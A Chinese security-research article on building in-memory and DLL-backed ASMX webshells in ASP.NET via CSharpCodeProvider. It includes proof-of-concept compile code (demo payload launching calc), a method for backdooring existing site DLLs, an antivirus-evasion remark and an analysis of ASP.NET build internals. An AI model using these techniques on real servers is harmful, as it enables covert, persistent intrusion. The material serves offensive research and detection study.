# 基于CSharpCodeProvider的WebService Memshell利用与检测分析-先知社区

> **来源**: https://xz.aliyun.com/news/18922  
> **文章ID**: 18922

---

本来只是看一下，结果看着看着就成内存马了

# CSharpCodeProvider

在 dotNet 中，可以通过这个接口来对 `C#` 或者 `VB` 的代码进行生成和编译，其中需要指定 `CompilerParameters` 来指定一些编译器参数来控制编译器生成

```
Microsoft.CSharp.CSharpCodeProvider cSharpCodeProvider = new Microsoft.CSharp.CSharpCodeProvider();
CompilerResults compilerResults = cSharpCodeProvider.CompileAssemblyFromSource(compilerParameters, csharpcode.ToString());
```

## CompilerParameters

CompilerParameters 中提供了很多选项来指定编译器生成的参数

|  |  |
| --- | --- |
| 参数名 | 作用 |
| `GenerateExecutable` | `True` 时会生成 `EXE` 可执行文件 `False` 时会生成 `dotNet DLL` 库文件 |
| `OutputAssembly` | `FilePath` 生成的对应的文件的包含名称的路径 如果将这里置空，并且开启 `GenerateInMemory`，则不会在磁盘中生成文件 |
| `IncludeDebugInformation` | `True` `False` 是否生成调试信息 |
| `ReferencedAssemblies` | 是一个 `StringCollection`，需要使用 `Add` 方法向其中添加要编译的代码中引入的库文件 |
| `GenerateInMemory` | `True` `False` 是否在内存中生成输出的内容 如果为 `True` 则不论 `DLL` 生成在什么位置，都会直接在内存中进行加载 |
| `WarningLevel` | 设置编译器显示告警的级别 |
| `TreatWarningsAsErrors` | `True` `False` 设置是否将警告视为错误 |
| `CompilerOptions` | 编译器参数：`/optimize` `/platform` `/target` `/unsafe` |
| `TempFiles` | `new TempFileCollection(".", true);`  设置中间缓存文件目录，如果设置为 `true` 会保留中间缓存文件 |

可以如下进行设置

```
CompilerParameters compilerParameters = new CompilerParameters();
compilerParameters.GenerateInMemory = false;
compilerParameters.GenerateExecutable = false;
compilerParameters.CompilerOptions = "/optimize";
compilerParameters.IncludeDebugInformation = false;
compilerParameters.OutputAssembly = "./decompiled/tryCompile.dll";
compilerParameters.ReferencedAssemblies.Add("System.dll");
compilerParameters.ReferencedAssemblies.Add("System.Web.dll");
compilerParameters.ReferencedAssemblies.Add("System.Web.Services.dll");
compilerParameters.ReferencedAssemblies.Add("System.Web.Extensions.dll");
compilerParameters.ReferencedAssemblies.Add("./decompiled/System.Web.Optimization.dll");
compilerParameters.ReferencedAssemblies.Add("./decompiled/Microsoft.AspNet.FriendlyUrls.dll");
```

## CompileAssemblyFromSource

`CSharpCodeProvider` 中存在一个方法为 `CompileAssemblyFromSource`，接收一个 `CompilerParameters` 和 `SourceCode`，调用后会动态编译生成 `CompilerResults` 为编译后的结果

```
List<string> s = new List<string>();
StringBuilder stringBuilder = new StringBuilder();
stringBuilder.Append("using System.Web;");
stringBuilder.Append("
");
stringBuilder.Append("using TrySpawnDll;
");
stringBuilder.Append("namespace sp");
stringBuilder.Append("
");
stringBuilder.Append("{");
stringBuilder.Append("
");
stringBuilder.Append("[System.Serializable]");
stringBuilder.Append("
");
stringBuilder.Append("public class sp : Class2");
stringBuilder.Append("{");
stringBuilder.Append("public sp() { string a = "Hello World"; }");
stringBuilder.Append("
");
stringBuilder.Append("}");
stringBuilder.Append("
");
stringBuilder.Append("}");
stringBuilder.Append("
");
s.Add(stringBuilder.ToString());

StringBuilder stringBuilder1 = new StringBuilder();
stringBuilder1.Append("using System.Web;
");
stringBuilder1.Append("namespace ");
stringBuilder1.Append("spd
");
stringBuilder1.Append("{
");
stringBuilder1.Append("[System.Web.Services.WebService(Namespace = "http://tempuri.org/")]
");
stringBuilder1.Append("[System.Web.Services.WebServiceBinding(ConformsTo = System.Web.Services.WsiProfiles.BasicProfile1_1)]
");
stringBuilder1.Append("[System.ComponentModel.ToolboxItem(false)]
");
stringBuilder1.Append("public class ");
stringBuilder1.Append("gWebService");
stringBuilder1.Append(" : System.Web.Services.WebService
");
stringBuilder1.Append("{
");
stringBuilder1.Append("[System.Web.Services.WebMethod]
");
stringBuilder1.Append("public string gdll()
");
stringBuilder1.Append("{
");
stringBuilder1.Append("System.Diagnostics.Process.Start("calc");
");
stringBuilder1.Append("return "Hello World";
");
stringBuilder1.Append("}
");
stringBuilder1.Append("}
");
stringBuilder1.Append("}
");
s.Add(stringBuilder1.ToString());

using (Microsoft.CSharp.CSharpCodeProvider cSharpCodeProvider = new Microsoft.CSharp.CSharpCodeProvider())
{
    CompilerParameters compilerParameters = new CompilerParameters();
    compilerParameters.GenerateInMemory = true;
    compilerParameters.GenerateExecutable = false;
    compilerParameters.CompilerOptions = "/optimize";
    compilerParameters.IncludeDebugInformation = false;
    compilerParameters.OutputAssembly = System.Web.HttpContext.Current.Server.MapPath("~") + "/bin/sp.dll";
    compilerParameters.ReferencedAssemblies.Add("System.dll");
    compilerParameters.ReferencedAssemblies.Add("System.Web.dll");
    compilerParameters.ReferencedAssemblies.Add("System.Web.Services.dll");
    compilerParameters.ReferencedAssemblies.Add(System.Web.HttpContext.Current.Server.MapPath("~") + "/bin/TrySpawnDll.dll");
    CompilerResults compilerResults = cSharpCodeProvider.CompileAssemblyFromSource(compilerParameters, s.ToArray());
    if (compilerResults.Errors.HasErrors)
    {
        StringBuilder stringBuilder2 = new StringBuilder();
        if (compilerResults.Errors != null)
        {
            foreach (object obj in compilerResults.Errors)
            {
                CompilerError compilerError = (CompilerError)obj;
                if (!compilerError.IsWarning)
                {
                    stringBuilder2.Append(compilerError.ErrorText);
                }
            }
        }
    }
}
```

向上面这样编译之后，因为设置 `GenerateExecutable=false`，会在 `WebRoot/bin` 下面编译生成一个 `sp.dll`，是一个 `.Net Assembly`，程序集内容就是上面源码部分的内容

# 尝试利用

## 尝试1

利用 `.Net Framework` 对 `bin` 目录变动检测的特性，每次检测到 `bin` 目录中的内容有变化就会重启整个站点完成利用

将目标使用上面的方法动态编译到 `bin` 目录中，然后在写入链接的 `asmx` 文件，即可打入任意 `asmx` 的 `WebShell`，并且 `Shell` 内容在后端的 `DLL` 中，相对来说不那么容易被发现

但是缺点也很明显，`DLL` 需要落地，链接的 `asmx` 文件需要落地，如果监控 `Web` 根目录的变化进行查杀，也比较容易

`asmx` 内容如下，用代码生成如下的 `asmx` 文件，然后执行上面的 `PoC` 代码即可

```
<%@ WebService Language="C#" Class="spd.gWebService %>
```

## 尝试2

如果我们将 `OutputAssembly` 的路径设置为目标站点已有的 `DLL` 会怎么样？

如果原本有一个 `a.dll`，如果我们设置输出路径为这个 `a.dll` 的路径，那么，会直接替换，然后导致站点重启，执行我们替换后的 `dll` 中的内容，这个风险就比较大了，如果目标 DLL 有正常业务逻辑，替换后，可能导致业务崩溃，所以不建议对复杂的 `DLL` 进行改动

可以找一些链接到已有 `asmx` 的 DLL，然后将整个 DLL 反编译，加入自己的逻辑，然后再编译替换回去，相当于在 DLL 中埋后门，好处是即使站点重启也不会导致 `WebShell` 失效

之前针对这个点写过一个工具，因为可能破坏原本站点的业务逻辑，造成不可逆的后果，所以这里大家感兴趣自行研究

<https://github.com/Koourl/SpawnDllExp>

## 尝试3

但是想法还是不想落地，注意到上面的 `GenerateInMemory` 配合 `OutputAssembly` 为空，如下配置，则不会在磁盘中生成文件，直接将目标 DLL 生成到内存中

```
CompilerParameters compilerParameters = new CompilerParameters();
compilerParameters.GenerateInMemory = true;
compilerParameters.GenerateExecutable = false;
compilerParameters.CompilerOptions = "/optimize";
compilerParameters.IncludeDebugInformation = false;
compilerParameters.OutputAssembly = "";
compilerParameters.ReferencedAssemblies.Add("System.dll");
compilerParameters.ReferencedAssemblies.Add("System.Web.dll");
compilerParameters.ReferencedAssemblies.Add("System.Web.Services.dll");
compilerParameters.ReferencedAssemblies.Add(System.Web.HttpContext.Current.Server.MapPath("~") + "/bin/TrySpawnDll.dll");
CompilerResults compilerResults = cSharpCodeProvider.CompileAssemblyFromSource(compilerParameters, s.ToArray());
```

执行后，在 `Dnspy` 中可以看到，生成了目标 `DLL`，且没有物理路径，只在内存中，重启站点后消失



既然我们的 DLL 已经在内存中了，那么，能不能通过 asmx 直接链接过去呢？当然不能，不然就不会有后面的内容了

可以看到，会报错，未能创建对应的类型



## 尝试4

这个尝试主要是看看 `CompulierResult` 中，编译好的 DLL 是怎么加载到内存的

`CompulierResult` 中存在一个字段为 `CompiledAssembly`，可以看到，也是 `Assembly.Load` 进来的，也可以直接调用



```
Assembly tmp = compilerResults.CompiledAssembly;

Type t = tmp.GetType("spd.gWebService");
MethodInfo m = t.GetMethod("gdll");

object instance = Activator.CreateInstance(t);
return (string)m.Invoke(instance, new object[] { });
```

## 查杀

这样生成不会触发杀软吗？本地测试国产杀软全开 XXX 和 XX 没有任何报警，不确定准确

# 探索

继续针对尝试三进行探索，为什么 `DLL` 已经在内存中，却无法创建指定对象

# WebService Routing

以 `asmx` 文件举例，其文件通常格式如下

```
<%@ WebService Language="C#" CodeBehind="WebService1.asmx.cs" Class="NameSpace.WebService1" %>
```

那么，IIS 是怎么路由到指定的文件呢，从哪里读出了对应的类，是如何进行寻找的？

其执行前的 `Handler` 为模块为 `WebServiceHandler`，可以看到，会从 `protocol` 中反射调用到对应的方法中进行执行，那么我们深入跟一下 `protocol` 是怎么来的，重点在于如何获取到的这个目标类

```
this.PrepareContext();
this.protocol.CreateServerInstance();
RemoteDebugger remoteDebugger = null;
string text;
if (!this.protocol.IsOneWay && RemoteDebugger.IsServerCallInEnabled(this.protocol, out text))
{
    remoteDebugger = new RemoteDebugger();
    remoteDebugger.NotifyServerCallEnter(this.protocol, text);
}
try
{
    TraceMethod traceMethod = (Tracing.On ? new TraceMethod(this, "Invoke", new object[0]) : null);
    TraceMethod traceMethod2 = (Tracing.On ? new TraceMethod(this.protocol.Target, this.protocol.MethodInfo.Name, this.parameters) : null);
    if (Tracing.On)
    {
        Tracing.Enter(this.protocol.MethodInfo.ToString(), traceMethod, traceMethod2);
    }
    object[] array = this.protocol.MethodInfo.Invoke(this.protocol.Target, this.parameters);
    if (Tracing.On)
    {
        Tracing.Exit(this.protocol.MethodInfo.ToString(), traceMethod);
    }
    this.WriteReturns(array);
}
```



这里的 protocol 的类型为 `HttpPostServerProtocol`，只是一个空壳，完全由父类来实现

```
internal class HttpPostServerProtocol : HttpServerProtocol
{
    // Token: 0x06000789 RID: 1929 RVA: 0x0003917F File Offset: 0x0003737F
    internal HttpPostServerProtocol()
        : base(true)
        {
        }
}
```

继续向上，在其父类 `ServerProtocol` 执行了如下操作来设置上下文，类型为外部传入，继续向上

```
internal void SetContext(Type type, HttpContext context, HttpRequest request, HttpResponse response)
{
    PartialTrustHelpers.FailIfInPartialTrustOutsideAspNet();
    this.type = type;
    this.context = context;
    this.request = request;
    this.response = response;
    this.Initialize();
}
```

`WebServiceHandlerFactory` 中创建 `Handler` 时，获取了这个类型

```
public IHttpHandler GetHandler(HttpContext context, string verb, string url, string filePath)
{
    TraceMethod traceMethod = (Tracing.On ? new TraceMethod(this, "GetHandler", new object[0]) : null);
    if (Tracing.On)
    {
        Tracing.Enter("IHttpHandlerFactory.GetHandler", traceMethod, Tracing.Details(context.Request));
    }
    new AspNetHostingPermission(AspNetHostingPermissionLevel.Minimal).Demand();
    Type compiledType = this.GetCompiledType(url, context);
    IHttpHandler httpHandler = this.CoreGetHandler(compiledType, context, context.Request, context.Response);
    if (Tracing.On)
    {
        Tracing.Exit("IHttpHandlerFactory.GetHandler", traceMethod);
    }
    return httpHandler;
}
```

# WebServiceHandlerFactory

可以看到，首先会将目标的 URL 构建为一个 VirtualPath，然后进行编译构建

```
public static Type GetCompiledType(string inputFile, HttpContext context)
{
    BuildResultCompiledType buildResultCompiledType = (BuildResultCompiledType)BuildManager.GetVPathBuildResult(context, VirtualPath.Create(inputFile));
    return buildResultCompiledType.ResultType;
}
```

接下来会碰到是否为 `FullTrust`，这里我写的 `Demo` 在 `Server` 上部署后，这个值默认为 `True`

```
internal static BuildResult GetVPathBuildResult(HttpContext context, VirtualPath virtualPath, bool noBuild, bool allowCrossApp, bool allowBuildInPrecompile, bool ensureIsUpToDate = true)
{
    if (HttpRuntime.IsFullTrust)
    {
        return BuildManager.GetVPathBuildResultWithNoAssert(context, virtualPath, noBuild, allowCrossApp, allowBuildInPrecompile, true, ensureIsUpToDate);
    }
    return BuildManager.GetVPathBuildResultWithAssert(context, virtualPath, noBuild, allowCrossApp, allowBuildInPrecompile, true, ensureIsUpToDate);
}
```

## GetVPathBuildResultInternal

接下来就到了主要跟进的逻辑，简化去除一些无关的上下文后的代码如下，主要是从缓存中取出，然后进行了一次验证，然后确保 `TopLevelFiles` 已经被编译过

```
private BuildResult GetVPathBuildResultInternal(VirtualPath virtualPath, bool noBuild, bool allowCrossApp, bool allowBuildInPrecompile, bool throwIfNotFound, bool ensureIsUpToDate = true)
{
    BuildResult buildResult = this.GetVPathBuildResultFromCacheInternal(virtualPath, ensureIsUpToDate);
    if (buildResult != null)
    {
        return buildResult;
    }

    this.ValidateVirtualPathInternal(virtualPath, allowCrossApp, false);

    bool flag = false;
    try
    {
        CompilationLock.GetLock(ref flag);
        buildResult = this.GetVPathBuildResultFromCacheInternal(virtualPath, ensureIsUpToDate);
        if (buildResult != null)
        {
            return buildResult;
        }

        VirtualPathSet virtualPathSet = CallContext.GetData("CircRefChk") as VirtualPathSet;
        virtualPathSet.Add(virtualPath);

        try
        {
            this.EnsureTopLevelFilesCompiled();
            buildResult = this.CompileWebFile(virtualPath);
        }
        finally
        {
            virtualPathSet.Remove(virtualPath);
        }
    }
    finally
    {
        if (flag)
        {
            CompilationLock.ReleaseLock();
        }
    }
    return buildResult;
}
```

### GetVPathBuildResultFromCacheInternal

这里主要是从指定的内存缓存中取出之前缓存的结果，避免重复，其中取到的 `Key` 为 `VirtualPath` 对象中的路径 + 路径的 `HashCode`，以此为 Key 从缓存中查找

```
private BuildResult GetVPathBuildResultFromCacheInternal(VirtualPath virtualPath, bool ensureIsUpToDate = true)
{
    bool flag;
    string cacheKeyFromVirtualPath = BuildManager.GetCacheKeyFromVirtualPath(virtualPath, out flag);
    return this.GetBuildResultFromCacheInternal(cacheKeyFromVirtualPath, flag, virtualPath, 0L, ensureIsUpToDate);
}
```

### ValidateVirtualPathInternal

这里主要是验证，如果目标有两层目录，则验证目标中不能含有下面黑名单中的内容

```
private void ValidateVirtualPathInternal(VirtualPath virtualPath, bool allowCrossApp, bool codeFile)
{
    if (!allowCrossApp)
    {
        virtualPath.FailIfNotWithinAppRoot();
    }
    else if (!virtualPath.IsWithinAppRoot)
    {
        return;
    }
    if (HttpRuntime.AppDomainAppVirtualPathObject == virtualPath)
    {
        return;
    }
    int length = HttpRuntime.AppDomainAppVirtualPathString.Length;
    string virtualPathString = virtualPath.VirtualPathString;
    if (virtualPathString.Length < length)
    {
        return;
    }
    int num = virtualPathString.IndexOf('/', length);
    if (num < 0)
    {
        return;
    }
    string text = virtualPathString.Substring(length, num - length);
    if (this._forbiddenTopLevelDirectories.Contains(text))
    {
        throw new HttpException(SR.GetString("Illegal_special_dir", new object[] { virtualPathString, text }));
    }
}
```


### EnsureTopLevelFilesCompiled

主要是对如下目录中的文件和 `Global` 进行编译


```
internal void EnsureTopLevelFilesCompiled()
{
    if (BuildManager.PreStartInitStage != PreStartInitStage.AfterPreStartInit)
    {
        throw new InvalidOperationException(SR.GetString("Method_cannot_be_called_during_pre_start_init"));
    }
    if (this._topLevelFileCompilationException != null && !BuildManager.SkipTopLevelCompilationExceptions)
    {
        this.ReportTopLevelCompilationException();
    }
    if (this._topLevelFilesCompiledStarted)
    {
        return;
    }
    using (new ApplicationImpersonationContext())
    {
        bool flag = false;
        BuildManager._parseErrorReported = false;
        try
        {
            CompilationLock.GetLock(ref flag);
            if (this._topLevelFileCompilationException != null && !BuildManager.SkipTopLevelCompilationExceptions)
            {
                this.ReportTopLevelCompilationException();
            }
            if (!this._topLevelFilesCompiledStarted)
            {
                this._topLevelFilesCompiledStarted = true;
                this._topLevelAssembliesIndexTable = new Dictionary<string, AssemblyReferenceInfo>(StringComparer.OrdinalIgnoreCase);
                this._compilationStage = CompilationStage.TopLevelFiles;
                this.CompileResourcesDirectory();
                this.CompileWebRefDirectory();
                this.CompileCodeDirectories();
                this._compilationStage = CompilationStage.GlobalAsax;
                this.CompileGlobalAsax();
                this._compilationStage = CompilationStage.BrowserCapabilities;
                BrowserCapabilitiesCompiler.GetBrowserCapabilitiesType();
                IFilterResolutionService emptyHttpCapabilitiesBase = HttpCapabilitiesBase.EmptyHttpCapabilitiesBase;
                this._compilationStage = CompilationStage.AfterTopLevelFiles;
            }
        }
        catch (Exception ex)
        {
            this._topLevelFileCompilationException = ex;
            if (!BuildManager.SkipTopLevelCompilationExceptions)
            {
                if (!BuildManager._parseErrorReported && !(ex is HttpCompileException))
                {
                    this.ReportTopLevelCompilationException();
                }
                throw;
            }
        }
        finally
        {
            this._topLevelFilesCompiledCompleted = true;
            if (flag)
            {
                CompilationLock.ReleaseLock();
            }
        }
    }
}
```

### CompileWebFile

接下来这个是重点，其中进行了 Web 对应 Service 文件的编译，获取对应的类型

首先还是去内存中尝试获取缓存，然后，会获取生成后的随机的 `AssemblyName`，然后通过创建 `Compiler` 对对应的 `virtualPath` 文件进行编译构建，然后进行缓存

接下来对这些步骤进行详细的分析

```
private BuildResult CompileWebFile(VirtualPath virtualPath)
{
    BuildResult buildResult = null;
    string text = null;
    if (this._topLevelFilesCompiledCompleted)
    {
        VirtualPath parent = virtualPath.Parent;
        if (this.IsBatchEnabledForDirectory(parent))
        {
            this.BatchCompileWebDirectory(null, parent, true);
            text = BuildManager.GetCacheKeyFromVirtualPath(virtualPath);
            buildResult = this._memoryCache.GetBuildResult(text);
            if (buildResult == null && DelayLoadType.Enabled)
            {
                buildResult = BuildManager.GetBuildResultFromCache(text);
            }
            if (buildResult != null)
            {
                if (buildResult is BuildResultCompileError)
                {
                    throw ((BuildResultCompileError)buildResult).CompileException;
                }
                return buildResult;
            }
        }
    }
    DateTime utcNow = DateTime.UtcNow;
    string text2 = "App_Web_" + BuildManager.GenerateRandomAssemblyName(BuildManager.GetGeneratedAssemblyBaseName(virtualPath), false);
    BuildProvidersCompiler buildProvidersCompiler = new BuildProvidersCompiler(virtualPath, text2);
    BuildProvider buildProvider = BuildManager.CreateBuildProvider(virtualPath, buildProvidersCompiler.CompConfig, buildProvidersCompiler.ReferencedAssemblies, true);
    buildProvidersCompiler.SetBuildProviders(new SingleObjectCollection(buildProvider));
    try
    {
        CompilerResults compilerResults = buildProvidersCompiler.PerformBuild();
        buildResult = buildProvider.GetBuildResult(compilerResults);
    }
    catch (HttpCompileException ex)
    {
        ...
            throw;
    }
    if (buildResult == null)
    {
        return null;
    }
    this.CacheVPathBuildResultInternal(virtualPath, buildResult, utcNow);
    if (!this._precompilingApp && BuildResultCompiledType.UsesDelayLoadType(buildResult))
    {
        ...
        }
    return buildResult;
}
```

#### BuildProvidersCompiler

这里就开始读取指定的配置文件，然后获取 `ReferencedAssemblies`，并设置相关的字段，这里读取配置文件的内容比较重要，因为涉及到后面找到指定的类

```
internal BuildProvidersCompiler(VirtualPath configPath, bool supportLocalization, string outputAssemblyName)
{
    this._configPath = configPath;
    this._supportLocalization = supportLocalization;
    this._compConfig = MTConfigUtil.GetCompilationConfig(this._configPath);
    this._referencedAssemblies = BuildManager.GetReferencedAssemblies(this.CompConfig);
    this._outputAssemblyName = outputAssemblyName;
}
```

##### GetCompilationConfig

可以看到，前面设置了两个属性之后，通过 `MTConfigUtil.GetCompilationConfig` 对配置文件进行读取，会取出字段

```
CachedPathData.GetVirtualPathData(path, true).RuntimeConfig.Compilation
```

然后会执行到如下方法

```
string configPathFromSiteIDAndVPath = WebConfigurationHost.GetConfigPathFromSiteIDAndVPath(HostingEnvironment.SiteID, virtualPath);
return CachedPathData.GetConfigPathData(configPathFromSiteIDAndVPath);
```

在 `GetConfigPathFromSiteIDAndVPath` 中，会传入当前的 `SiteID`，如果默认的站点没有删除，新加的自己的站点则为 2，这里对应的是对应的 `AppPool` 中的配置文件，这里会有对应的 `SiteID`

```
<site name="Test" id="2" serverAutoStart="true">
```

最后会连接传入的路径和 `RootWebConfigPath`，返回：`machine/webroot/2/webservice1.asmx`

这个就是目标的 `ConfigPath`，然后传入到 `GetConfigPathData` 中

这个方法中，核心的只有一段

首先会判断是不是 `MachineConfigPath`，如果不是，则会获取当前 `configPath` 的父节点，然后递归调用，获取完父节点的配置文件后，将当前路径创建为 `CachedPathData`，然后使用父节点的 `Data` 对其进行初始化

```
if (WebConfigurationHost.IsMachineConfigPath(configPath))
{
    flag4 = true;
}
else
{
    string parent2 = ConfigPathUtility.GetParent(configPath);
    cachedPathData3 = CachedPathData.GetConfigPathData(parent2);
    string text5 = CachedPathData.CreateKey(parent2);
    array2 = new string[] { text5 };
    if (!WebConfigurationHost.IsVirtualPathConfigPath(configPath))
    {
        flag4 = true;
    }
    else
    {
        flag4 = !flag3;
        WebConfigurationHost.GetSiteIDAndVPathFromConfigPath(configPath, out text3, out virtualPath2);
        text4 = CachedPathData.GetPhysicalPath(virtualPath2);
        if (!string.IsNullOrEmpty(text4))
        {
            FileUtil.PhysicalPathStatus(text4, false, false, out flag, out flag2);
            if (flag && !flag2)
            {
                array = new string[] { text4 };
            }
        }
    }
    try
    {
        cacheDependency = new CacheDependency(0, array, array2);
    }
    catch
    {
    }
}

...

    cachedPathData4 = new CachedPathData(configPath, virtualPath2, text4, flag);

...

    cachedPathData4.Init(cachedPathData3);

```

最后的初始化操作其实是将父配置设置到了当前 `PathData` 的 `RuntimeConfig` 内容，其实是设置了这些配置内容



而这些配置内容，来源于 `machine/webroot/2`

前面说过会递归的找父节点遍历然后读取，其最上层节点即：`machine`，  
而这个 `machine` 配置文件在 `C:WindowsMicrosoft.NETFramework644.0.30319Config` 这个目录中  
而对应的 `machine/webroot/2` 就是我们当前站点的根目录

其中有 `machine.config` 和 `web.config`，上面字段中 `machine` 的配置就是来源于这里，可以看到对应的类以及字段名



还记的前面说这里取完后要使用的字段吗，`RuntimeConfig.Compilation`，我们看一下这个字段中的内容，其中有两个关键内容，`Assemblies` 和 `Values`

`Assmeblies` 中存储了当前所依赖的所有 `DLL`，而最后，有一个很显眼的 `*`，这个是字段读取当前站点根目录所有的 `DLL`   
